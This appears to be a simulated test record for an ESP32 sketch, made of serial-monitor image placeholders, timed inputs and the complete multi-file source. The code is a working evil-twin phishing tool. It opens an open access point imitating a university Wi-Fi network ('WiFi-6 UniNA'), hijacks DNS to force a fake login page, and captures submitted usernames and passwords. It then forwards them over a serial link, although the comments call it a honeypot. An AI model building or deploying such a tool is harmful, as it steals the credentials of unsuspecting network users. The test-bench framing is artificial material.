
This sketch was run on a simulated ESP32. Shown: the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench. Storage starts empty.

Above: at 1.3 s.
1.4 s: "start\n" received over the second serial link
At 2.1 s:

2.9 s: "stop_\n" received over the second serial link
At 3.3 s:

4.4 s: "1\n" received over the second serial link
At 5.5 s:


The sketch:

captive_unina.ino
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>   // to load file on esp32
#include "web_handler.h"
#include "ap_handler.h"

// PIN setup
#define TX 17
#define RX 16
#define BAUD_RATE 115200

DNSServer dns_server;
WebServer http_server(80);

void setup() {
  Serial.begin(115200);

  if (!SPIFFS.begin(true)) {
      Serial.println("[ERROR] SPIFFS mount failed!");
      return;
  }

  File root = SPIFFS.open("/");
  File file = root.openNextFile();
  Serial.println("[SPIFFS] File uploaded on board correctly.");

  Serial1.begin(BAUD_RATE, SERIAL_8N1, RX, TX);
  delay(100);
  while (Serial.available()) {
    Serial.read();
  }

  Serial1.flush();
  Serial1.println("warmup");
  delay(50);
  Serial1.flush();

  Serial.println("[OK] Ready to receive command via UART.");
}

void loop() {

  static String received_command = "";
  while (Serial1.available()) {
    char c = Serial1.read();
    received_command += c;

    if (c == '\n' || c == '\r') {
      received_command.trim();
      Serial.print("[INFO] Command received: ");
      Serial.println(received_command);

      if (received_command == "start" && !ap_is_active()) {
        ap_start();
      } else if (received_command == "stop_" && ap_is_active()) {
        ap_stop();
      }

      received_command = "";
    }

  }

  // only if AP is active, manage DNS and HTTP requests
  if (ap_is_active()) {
    dns_server.processNextRequest();
    http_server.handleClient();
  }

  delay(10);

}
```

ap_handler.cpp
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>

#include "web_handler.h"
#include "ap_handler.h"

const char *ap_ssid = "WiFi-6 UniNA";
const char *ap_password = "";
const byte DNS_PORT = 53;

bool ap_active = false;

void ap_start() {
    WiFi.softAP(ap_ssid, ap_password);
    dns_server.start(DNS_PORT, "*", WiFi.softAPIP());
    setup_web_handler();
    http_server.begin();
    ap_active = true;

    Serial.println("[INFO] Honeypot Unina Started");
    Serial.println("[INFO] IP Address:");
    Serial.println(WiFi.softAPIP());
}

void ap_stop() {
    http_server.stop();
    dns_server.stop();
    WiFi.softAPdisconnect(true);
    ap_active = false;

    Serial.println("[INFO] Honeypot Unina Stopped");
}

bool ap_is_active() {
    return ap_active;
}
```

ap_handler.h
```cpp
#ifndef AP_HANDLER_H
#define AP_HANDLER_H

extern WebServer http_server;
extern DNSServer dns_server;

void ap_start();
void ap_stop();
bool ap_is_active();

#endif
```

web_handler.cpp
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>

#include "web_handler.h"

void setup_web_handler() {
    http_server.on("/", main_handler);
    http_server.on("/submit", submit_handler);
    http_server.onNotFound(captive_portal);

    // file handlers for use html page from files
    http_server.serveStatic("/style.css", SPIFFS, "/style.css");
    http_server.serveStatic("/script.js", SPIFFS, "/script.js");
    http_server.serveStatic("/logo.jpg", SPIFFS, "/logo.jpg");
    http_server.serveStatic("/background.jpg", SPIFFS, "/background.jpg");
}

void captive_portal() {
    http_server.sendHeader("Location", String("http://") + WiFi.softAPIP().toString(), true);
    http_server.send(302, "text/plain", "");
}

void main_handler() {

    // code to load unina login page from file
    File file = SPIFFS.open("/index.html", "r");
    if (!file || file.isDirectory()) {
        http_server.send(404, "text/plain", "Login page not found");
        return;
    }
    http_server.streamFile(file, "text/html");
    file.close();

}

void submit_handler() {
    if (http_server.method() == HTTP_POST) {
        String username = http_server.arg("username");
        String password = http_server.arg("password");

        Serial.print("[CREDENTIALS] Username: ");
        Serial.println(username);
        Serial.print("[CREDENTIALS] Password: ");
        Serial.println(password);

        String to_transmit = username + " - " + password + "\n";
        Serial.print("[CREDENTIALS] Sending acquired data: ");
        Serial.print(to_transmit);
        Serial1.print(to_transmit);   // send credentials over usart

        http_server.sendHeader("Location", "/");
        http_server.send(302, "text/plain", "Fake redirection");
    } else {
        http_server.send(405, "text/plain", "Method Not Allowed");
    }
}
```

web_handler.h
```cpp
#ifndef WEB_HANDLER_H
#define WEB_HANDLER_H

extern WebServer http_server;
extern DNSServer dns_server;

// this function setup all the routes for the Honeypot Unina. //
void setup_web_handler();

// this function activates everytime user try to navigate on web. //
// in particular, for each URL that doesn't match the ESP-32 one, //
// the user is redirected on the login page. //
void captive_portal();

// this function activates everytime the main page is visited. //
// it presents a web login interface to the user. //
void main_handler();

// this function activates everytime user submit a username-passwrd pair. //
// the credentials are written on the serial output and sent on usart. //
void submit_handler();

#endif
```

Measured:
- after the input at 1.4 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.9 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.4 s, the serial monitor: prints a new line at once (image 3)
